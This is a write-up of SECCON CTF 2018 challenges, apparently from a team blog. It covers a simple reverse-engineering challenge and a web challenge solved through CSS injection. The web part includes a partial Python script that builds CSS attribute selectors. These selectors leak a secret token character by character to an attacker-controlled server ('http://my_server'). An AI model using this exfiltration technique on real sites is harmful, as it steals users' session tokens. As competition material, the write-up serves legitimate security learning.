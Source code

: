 ```yaml
---
title:  SECCON CTF 2018 Writeup
date: 2018-10-28
tags:
  - Rev
  - RCE
  - XSS
  - ROP
  - VM
  - Stack
categories:
  - Writeups
excerpt: "runme, ghostkingdom, classic pwn, profile, kind vm"
---
```



# Rev

## Runme

A pretty simple RE chall. We can crack it by static analyze:
```c
int __cdecl sub_401034(unsigned __int8 a1, unsigned __int8 *a2)
{
  JUMPOUT(a1, *a2, &loc_4018BB);
  return sub_401060('C', a2 + 1);
}
```

The program will compare each byte of our input to a char. Track it until the whole flag is read.

# Web

## GhostKingdom

Create a user and login, we can find several options:
![pic1](/assets/SECCON-CTF-2018/ghost1.png)

Here, we can observe CSS injection(encoded by Base64):
![pic2](/assets/SECCON-CTF-2018/ghost2.png)

My teammate writes a script to leak the token, you can google XSS key logger for more details:
```python
import urllib
import base64
import requests

charset = "0123456789abcdef"

username = "phantom"
password = "qwerty"


token = raw_input("input first n charact token: ")
print token
css = ""

for i in charset:
	css += "input[value^='"+token+i+"'] { background-image: url(http://my_server"+token+i+"); }\n"

```